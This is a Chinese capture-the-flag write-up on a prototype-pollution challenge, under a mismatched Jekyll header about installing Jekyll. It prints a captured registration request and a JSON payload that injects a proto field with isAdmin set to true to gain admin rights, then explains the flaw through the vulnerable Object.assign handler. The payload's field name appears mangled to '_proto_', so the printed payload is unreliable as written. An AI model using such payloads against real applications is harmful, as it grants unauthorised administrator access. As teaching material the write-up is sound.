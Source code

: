 ```yaml
---
layout: post
title:  "jeklly安装部署教程"
date:   2023-12-06 13:29:20 +0800
tags:
    - github博客
    - 一键搭建jeklly
    - jeklly主题配置
---
```

# wife-wife【原型链污染】[难度：4]

- 题目界面
    - 注册界面
        
        ![Untitled](wife-wife%E3%80%90%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93%E3%80%91%5B%E9%9A%BE%E5%BA%A6%EF%BC%9A4%5D%2076811980db92427b961154733627d708/Untitled.png)
        
    - 登录界面
        
        ![Untitled](wife-wife%E3%80%90%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93%E3%80%91%5B%E9%9A%BE%E5%BA%A6%EF%BC%9A4%5D%2076811980db92427b961154733627d708/Untitled%201.png)
        
    - 思路：在注册界面，利用原型链污染漏洞，获得管理员权限。
- 步骤
    - 在注册界面输入用户名-密码-邀请码，勾选admin选项，抓包
        
        ```bash
        POST /register HTTP/1.1
        Host: 61.147.171.105:63129
        Content-Length: 69
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
        Content-Type: text/plain;charset=UTF-8
        Accept: */*
        Origin: http://61.147.171.105:63129
        Referer: http://61.147.171.105:63129/register.html
        Accept-Encoding: gzip, deflate, br
        Accept-Language: zh-CN,zh;q=0.9
        Connection: close
        
        **{"username":"123","password":"123","isAdmin":true,"inviteCode":"123"}**
        ```
        
    - 将post中的数据加入”_proto_”字段，放包，显示用户注册成功。
        
        ```bash
        {"username":"123","password":"123",**"_proto_":{"isAdmin":true}**,"inviteCode":"123"}
        ```
        
    - 注册成功后跳转到登录界面，在此界面输入刚才注册的账号，拿到flag。
        
        ![Untitled](wife-wife%E3%80%90%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93%E3%80%91%5B%E9%9A%BE%E5%BA%A6%EF%BC%9A4%5D%2076811980db92427b961154733627d708/Untitled%202.png)
        
        ![Untitled](wife-wife%E3%80%90%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93%E3%80%91%5B%E9%9A%BE%E5%BA%A6%EF%BC%9A4%5D%2076811980db92427b961154733627d708/Untitled%203.png)
        
- 知识点
    
    ### 原型链污染
    
    - 概念
        - 原型链污染是一种 JavaScript 中的安全漏洞，它涉及到修改对象的原型链，从而影响到所有基于该原型链创建的对象。这种漏洞可能导致意外的行为和安全风险。
        - 在js语言中，每一个实例对象都有一个私有属性(**proto**)指向它的构造函数的原型对象(prototype)。而该原型对象又有一个自己的原型对象，直到根部object对象，它是几乎所有javascript对象的祖宗，所以它是没有原型的。
        - 一个对象的_proto_属性指向所在类的prototype属性
    - 实例
        
        js中，定义一个类需以构造函数的方式来定义。
        
        ```jsx
        var ad = function(){  
          this.a = 1;
          this.b = 2;
        }
        var we = new ad(); //从一个函数里创建一个对象we
        ad.prototype.b = 3;
        ad.prototype.c = 4;//在ad函数的原型对象中定义属性
        console.log(we.a);//we对象中有a属性，为1。
         
        console.log(we.b);//we对象也有b属性，为2.
        //原型中也有b属性，但是不会被访问到。也想当于重写。
        console.log(we.c);**//we对象没有c属性，所以在原型中找，为4**
        console.log(we.d);//d不是we对象的属性，继续看，d也不是
        //we.[[Prototype]]中的属性，继续，d也不是we.[[Prototype]].[[Prototype]]
        //中的属性，到此结束，返回undefined
        ```
        
    - 漏洞利用
        
        改变原型对象的属性，使得继承该原型对象的实例对象在本身不拥有某属性的情况下拥有某属性。
        
        ```jsx
        ob1 = {"a":123,"b":456};//创建一个对象ob1
        ob1.__proto__.ab = "123456";//添加原型属性ab并赋值123456
        console.log(ob1.ab);// 打印123456
        ob2 = {"a":1234,"b":5678};//创建一个对象ob2
        console.log(ob2.ab);// 打印123456
        ```
        
        本题中的关键代码如下所示：
        
        ```jsx
        app.post('/register', (req, res) => {
            let user = JSON.parse(req.body)
            if (!user.username || !user.password) {
                return res.json({ msg: 'empty username or password', err: true })
            }
            if (users.filter(u => u.username == user.username).length) {
                return res.json({ msg: 'username already exists', err: true })
            }
            if (user.isAdmin && user.inviteCode != INVITE_CODE) {
                user.isAdmin = false
                return res.json({ msg: 'invalid invite code', err: true })
            }
            let newUser = Object.assign({}, baseUser, user) //就是这里，原型链污染
            users.push(newUser)
            res.json({ msg: 'user created successfully', err: false })
        })
        ```
        
        **Object.assign触发了原型链污染**，使得实例对象的原型对象中isAdmin属性置为true。
